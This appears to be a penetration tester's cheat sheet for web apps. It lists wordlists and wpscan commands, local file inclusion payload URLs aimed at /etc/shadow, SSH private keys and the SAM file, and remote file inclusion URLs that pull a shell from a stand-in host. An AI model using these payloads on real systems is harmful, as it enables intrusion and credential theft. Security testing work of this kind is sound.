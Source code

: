 
# Step 1: ALWAYS LOOK AT THE SOURCE CODE OF THE WEBPAGE!

## Step 2: 

## Common Wordlists to use for Web App Scanning: 

Common Wordlists to use for Web Directory Scanning: 
- /usr/share/wordlists/dirb/common.txt
- /usr/share/wordlists/dirbuster/*.txt
- /usr/share/wordlists/wfuzz/general/*.txt
- /usr/share/seclists/Discovery/Web-Content/
- Assetnote Wordlists: https://wordlists.assetnote.io/
- Jhaddix Content Discovery: https://gist.github.com/jhaddix/b80ea67d85c13206125806f0828f4d10

Common Wordlists to use for User Enumeration Scanning: 
- /usr/share/seclists/Usernames
- /usr/share/wordlists/dirbuster/apache-user-enum-2.0

## Web App Scanners


Wpscan(WordPress Scannner):

- wpscan --url <domain>
- wpscan --url <domain> --enumerate ap at (All Plugins, All Themes)
- wpscan --url <domain> --enumerate u (Usernames)
- wpscan --url <domain> --enumerate v



Other Tools: 
- Burp Suite
- OWASP Zap
- Cadaver
- SQLMap
- Joomscan
- Feroxbuster

## Testing for LFI: 

https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf

Examples: 

http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd

Interesting Files:

Linux:

```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa
```

Windows:
```
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM
```


## Testing for RFI: 

http://example.com/index.php?page=http://callback.com/shell.txt
http://example.com/index.php?page=http://callback.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt

## Resources

- Turning LFI to RFI: 
https://l.avala.mp/?p=241
Backup: https://web.archive.org/web/20210612222732/https://l.avala.mp/?p=241